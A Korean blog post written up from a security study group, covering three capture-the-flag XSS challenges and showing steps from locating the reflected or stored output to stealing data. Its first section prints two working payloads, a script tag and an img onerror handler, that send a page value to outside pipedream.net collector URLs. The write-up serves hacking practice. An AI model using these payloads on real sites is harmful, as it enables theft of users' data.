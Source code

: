 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq:
    priority:

title: "[CTF] CTF 문제 풀이: XSS - iframe tag 이용 다른 페이지 data 탈취하기"
excerpt: "모의해킹 취업반 스터디 7기 11주차"

date: 2024-12-30
last_modified_at: 

categories: [SECURITY]
tags: [TIL, WEB, JS, SECURITY]
---
```


# CTF - Basic Script Prac
## mypage.php
1. 저장되고 출력되는 위치 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-11.png?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-12.png?raw=true">

1. `<script>alert(1)</script>`로 Reflected XSS 공격이 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-13.gif?raw=true">

1. data 탈취  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-14.gif?raw=true">

* 공격 코드 1  
```html
">
<script>
window.addEventListener('DOMContentLoaded',
    function() {
        let e = document.querySelectorAll('input')[1].placeholder;
        let i = new Image();
        i.src = 'https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie=' + e;
    });
</script>
```

* 공격 코드 2  
```html
">
<img src=. onerror="
let e = document.querySelectorAll('input')[1].placeholder;
let i = new Image();
i.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + e;
">
```

# CTF - Steal Info
## notice_list.php
1. 저장되고 출력되는 위치 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-1.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-2.gif?raw=true">

1. `<script>alert(1)</script>`로 XSS 공격이 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-3.gif?raw=true">

1. data 탈취  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-4.gif?raw=true">

* 공격 코드  
![pre tag가 일을 안 해요](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-9.png?raw=true)

# CTF - Steal Info 2
## notice_list.php
1. 저장되고 출력되는 위치 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-5.gif?raw=true">

1. 특수문자 <'"> 사용 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-6.gif?raw=true">

1. `<script>alert(1)</script>`로 Stored XSS 공격이 가능한 지 확인  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-7.gif?raw=true">

1. data 탈취  
<img src="https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-8.gif?raw=true">

* 공격 코드  
![pre tag가 일을 안 해요 2](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-30-10.png?raw=true)
